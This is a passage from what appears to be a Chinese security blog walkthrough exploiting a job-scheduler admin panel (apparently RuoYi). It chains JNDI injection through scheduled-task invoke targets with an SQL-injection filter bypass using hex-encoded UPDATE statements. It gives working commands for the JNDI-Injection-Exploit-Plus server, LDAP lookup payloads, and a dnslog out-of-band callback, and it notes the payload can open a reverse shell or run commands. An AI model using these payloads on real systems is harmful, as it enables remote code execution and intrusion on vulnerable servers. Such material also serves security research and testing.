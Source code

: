 创建任务  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraambZMU8Tdw9LBjuwibUM4rfXibgLhQBOCyh5FxvFAfxYt0zdib3BDAWTFKw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
执行一次  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamJ8cOKwrYSmRWMagVC3LQyVxHpZ9jeyTOy0PUK23rYLuoWmeKXICN3Q/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
执行被修改的任务之前需要开启JNDI  
  
需要下载cckuailong师傅的JNDI-Injection-Exploit-Plus项目(https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases/tag/2.3)。  
  
jdk版本要求1.8  
```
java -jar '.\JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar' -C calc -A 127.0.0.1
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamibl6HXng8UQbaicac3Y72iaNNAVVLliceUJ0prWVQWFJPJ9GxfCplvQFbw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
执行被修改的1任务  
  
JNDI  
```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')
```  
  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
  
DNSLOG  
```
javax.naming.InitialContext.lookup('ldap://dnslog')
```  
  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
  
https://www.bejson.com/convert/ox2str/  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamRmXRVsek3iaFXWlULpV2EHfmd4YeZBRZtHlF3ibSMAUk719TicKaQZeow/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
```
0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7263793870732e646e736c6f672e636e2729
```  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamBaTIiaWffrkAHOIh4JvOxzQM3a0NctBEA3icmqic5sSB0m8ucPVyic32cQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
我们再来试试dnslog  
```
javax.naming.InitialContext.lookup('ldap://rcy8ps.dnslog.cn')
```  
  